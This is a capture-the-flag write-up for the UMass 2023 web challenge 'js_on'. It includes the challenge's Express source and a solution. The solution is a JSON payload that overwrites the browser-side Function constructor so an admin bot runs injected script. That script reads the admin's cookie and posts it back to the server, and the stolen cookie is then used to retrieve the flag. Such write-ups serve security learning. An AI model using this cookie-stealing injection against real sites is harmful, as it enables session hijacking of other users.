 # UMass 2023 - js\_on

## 💙 Description

> Why call it JSON if I can't put my own JS there? Introducing JS-ON! Now you can share your JS with your friends to enjoy next level development!
>
> Bot: [http://bot-json.web.ctf.umasscybersec.org:9000](http://bot-json.web.ctf.umasscybersec.org:9000)
>
> File : [app.js](https://umass-ctf-challenges.s3.amazonaws.com/web/app.js)
>
> Main Site : [http://app-json.web.ctf.umasscybersec.org:3000](http://app-json.web.ctf.umasscybersec.org:3000)

## The Challenge

What we first run into by looking at this challenge is a website that allows you to run code with compiled `JS-ON` for an user.

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>The main website</p></figcaption></figure>

There is also a 'bot' website that seems to run the user's generated code as admin.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>The Bot website</p></figcaption></figure>

```javascript
// Removed all the imports and basic express stuff to save space

let adminLibs = {};

adminLibs[process.env.ADMIN_ACCOUNT] = {
  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}


app.use(cookiep());
app.use('/static', express.static('public'))

app.get('/', async (req, res) => {
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    uid = uuidv4();
    await client.set(uid,JSON.stringify({
      "code":"console.log(message)",
      "js-on":{'var_message':'Hello World'}
    }))
    res.set({'Set-Cookie':`user=${uid}`});
  }
  res.redirect(`/user/${uid}`);
})

app.get('/code/admin',(req,res)=>{
  let cookie = req.cookies.user;
  if(cookie && cookie === process.env.ADMIN_ACCOUNT){
    return res.json(adminLibs[cookie]);
  }
  res.json({'error':'Did not recieve admin cookie'})
})

app.get('/user/:id',async (req,res)=>{
  let uid = req.params.id ? req.params.id : '';

  let user = await client.get(req.params.id);
  if(!user){
    return res.redirect('/');
  }
  res.sendFile(path.join(__dirname,'public/html/index.html'))
})

app.get('/code/:id',async (req,res)=>{
  let uid = req.params.id; 
  let user = await client.get(uid)
  if(!user){
    return res.json({'error':'Could not find js-on for this'})
  }
  res.json(JSON.parse(user))
})

app.use(express.json());

app.post('/code',async (req,res)=>{
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    return res.json({'error':'Could not find js-on for that user!'});
  }
  try{
    req.body['js-on'] = JSON.parse(req.body['js-on'])
  }
  catch(e){
    return res.json({'error':'Failed to parse js-on!'})
  }
  await client.set(req.cookies.user,JSON.stringify(req.body));
  res.json({'success':'JS-ON loaded onto server!'});
})
```

Based on the code provided, the application is a web server that allows users to write JavaScript code and execute it on the server-side using a technology called JS-ON.

The server creates a unique identifier as a cookie for each user that connects to it, and saves the user's code and JS-ON payload in Redis. Users can retrieve their code and payload by specifying their unique identifier in the URL path.

There is also an admin feature that allows a user with a specific cookie to access a pre-defined library of JavaScript code with an embedded flag. However, this feature is protected by a cookie, which is checked against a predefined value that we can't access.

<pre class="language-java"><code class="lang-java"><strong>adminLibs[process.env.ADMIN_ACCOUNT] = {
</strong>  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}
</code></pre>

## The solution

Looking at the client-side some more, it seems that we can abuse the `func_` keys to cause the JS-ON parser in the browser to overwrite the `Function()` constructor, and then run code without the bot needing to click `Run this code!`

The goal is to POST this to the JS-ON server as a snippet:

{% code overflow="wrap" %}
```json
{"code":"console.log(hello);","js-on":"{\r\n    \"func_Function\": \"let adminCookie = document.cookie;document.cookie = 'user=7ed131b9-415d-465d-8a2b-3ffd68ad4acd; path=/';fetch('/code', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ code: ace.edit('editor1').getValue(), 'js-on': JSON.stringify({ var_cookie: adminCookie }) }) });\",\r\n    \"func_require\": \";;;\"\r\n}"}
```
{% endcode %}

Then, when the bot opens the page it overwrites the Function then calls it with the second dummy func.

Refresh, then you got the cookie:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

You can then put this cookie and access the admin snippet:

{% code overflow="wrap" %}
```json
{"code":"/*\n    !!! The best code ever !!!\n  */ \n  console.log(1+2);//I think this should output 5\n  console.log(flag);//this is my awesome flag","js-on":{"var_flag":"UMASS{M4YB3_JS_$h0uld_b3_0FF_BruH_XDDDDDD489253}"}}
```
{% endcode %}
